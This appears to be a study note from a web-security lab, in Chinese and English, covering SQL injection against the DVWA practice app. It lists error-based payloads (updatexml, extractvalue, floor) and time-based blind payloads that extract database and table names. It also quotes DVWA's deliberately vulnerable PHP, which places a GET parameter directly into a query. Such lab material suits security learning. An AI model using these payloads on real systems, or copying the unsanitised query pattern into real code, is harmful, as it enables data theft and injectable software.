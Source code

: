报错注入

```
updatexml()
payload: 1' and updatexml(1,concat(0x23,database()),1)#
payload: 1' and updatexml(1,concat(0x23,(select table_name from information_schema.tables where table_schema = database() limit 1 offset 0)),1)#

extractvalue()
payload: 1' and extractvalue(1,concat(0x23,database()))#
payload: 1' and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema = database() limit 1 offset 0)))#

floor
payload: 1' and (SELECT 1 from  (SELECT count(*),concat(0x23, database(), 0x23,floor(rand(0)*2)) as x from information_schema.`COLUMNS` GROUP BY x)  as y)#
payload: 1' and (SELECT 1 from  (SELECT count(*),concat(0x23, (select table_name from information_schema.tables where table_schema = database() limit 0,1), 0x23,floor(rand(0)*2)) as x from information_schema.`COLUMNS` GROUP BY x)  as y)#
```

时间盲注

```
payload: 1' and if(1=1,sleep(2),0)#
payload: 1' and if(ascii(substr(database(),1,1))<101,sleep(2),1)#
```

#### SQL Injection (Blind)

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    mysql_close();
}

?>
```
